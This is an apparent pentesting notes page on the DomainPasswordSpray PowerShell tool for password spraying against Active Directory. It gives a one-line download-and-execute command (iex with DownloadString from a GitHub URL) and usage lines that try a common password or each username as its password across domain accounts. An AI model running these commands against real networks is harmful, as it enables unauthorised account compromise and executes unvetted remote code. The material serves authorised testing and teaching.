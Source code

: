 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Invoke-Domainpasswordspray

Powershell script to perform password spray attack in Active Directory.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

### Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crypt0rr/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

### Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

### URL list

* [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
